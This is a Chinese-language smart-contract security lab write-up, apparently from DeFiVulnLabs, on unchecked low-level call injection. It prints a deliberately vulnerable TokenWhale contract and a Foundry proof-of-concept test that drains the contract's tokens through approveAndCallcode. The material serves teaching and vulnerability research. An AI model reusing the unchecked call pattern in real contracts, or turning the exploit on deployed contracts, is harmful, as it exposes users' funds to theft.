# 未经检查的外部调用——call调用注入

[UnsafeCall.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/UnsafeCall.sol)  

**名称：**  不安全的call调用漏洞  

**描述：**  
在TokenWhale合约的approveAndCallcode函数中，存在一个漏洞允许执行带有任意数据的任意调用，从而导致潜在的安全风险和意外后果。  
该函数使用低级别的调用（_spender.call(_extraData)）来执行_spender地址的代码，而没有对提供的_extraData进行任何验证或检查。  
这可能导致意外行为、重入攻击或未经授权的操作。

本练习涉及到对合约进行低级别调用，其中输入和返回值未经检查。  
如果调用数据可控制的，就很容易引发任意函数执行 



**缓解措施：**   
尽量避免使用低级别的“call”。  

**参考**  
https://blog.li.fi/20th-march-the-exploit-e9e1c5c03eb9  


**TokenWhale 合约：**  
```solidity
contract TokenWhale {
    address player;

    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    string public name = "Simple ERC20 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;

    function TokenWhaleDeploy(address _player) public {
        player = _player;
        totalSupply = 1000;
        balanceOf[player] = 1000;
    }

    function isComplete() public view returns (bool) {
        return balanceOf[player] >= 1000000; // 1 百万
    }

    event Transfer(address indexed from, address indexed to, uint256 value);

    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;

        emit Transfer(msg.sender, to, value);
    }

    function transfer(address to, uint256 value) public {
        require(balanceOf[msg.sender] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }

    event Approval(
        address indexed owner,
        address indexed spender,
        uint256 value
    );

    function approve(address spender, uint256 value) public {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
    }

    function transferFrom(address from, address to, uint256 value) public {
        require(balanceOf[from] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);
        require(allowance[from][msg.sender] >= value);

        allowance[from][msg.sender] -= value;
        _transfer(to, value);
    }

    //  授权后调用合约代码
    function approveAndCallcode(
        address _spender,
        uint256 _value,
        bytes memory _extraData
    ) public {
        allowance[msg.sender][_spender] = _value;

        bool success;
        //容易受到攻击的调用执行不安全的用户代码 
        (success, ) = _spender.call(_extraData);
        console.log("success:", success);
    }
}
```

**如何测试：**  
`forge test --contracts src/test/UnsafeCall.sol -vvvv`  

```solidity
// 测试不安全调用的函数
function testUnsafeCall() public {
    // 设置环境变量
    address alice = vm.addr(1);
    TokenWhaleContract = new TokenWhale();
    TokenWhaleContract.TokenWhaleDeploy(address(TokenWhaleContract));

    console.log(
        "TokenWhale balance:",
        TokenWhaleContract.balanceOf(address(TokenWhaleContract))
    );

    // Alice试图执行不安全的调用以从TokenWhaleContract转移资产
    console.log(
        "Alice tries to perform unsafe call to transfer asset from TokenWhaleContract"
    );

    // 将msg.sender更改为Alice地址
    vm.prank(alice);

    // Alice调用了approveAndCallcode函数，并传递了一个经过编码的数据，
    // 这个数据表示了对transfer函数的调用。
    TokenWhaleContract.approveAndCallcode(
        address(TokenWhaleContract),
        0x1337, // 不影响漏洞利用
        abi.encodeWithSignature(
            "transfer(address,uint256)",
            address(alice),
            1000
        )
    );

    // 检查漏洞利用是否成功
    assertEq(TokenWhaleContract.balanceOf(address(alice)), 1000);
    console.log("Exploit completed");

    // 记录最终余额
    console.log(
        "TokenWhale balance:",
        TokenWhaleContract.balanceOf(address(TokenWhaleContract))
    );
    console.log(
        "Alice balance:",
        TokenWhaleContract.balanceOf(address(alice))
    );
}

// 接收以太币的回退函数
receive() external payable {}
```
**红色框：** 成功利用漏洞，成功掏空了TokenWhale合约。  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fef522203-1293-43f6-bf50-746d2a4b8457%2FUntitled.png?table=block&id=442bc8fe-4714-4112-a892-725b88a7b32e&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
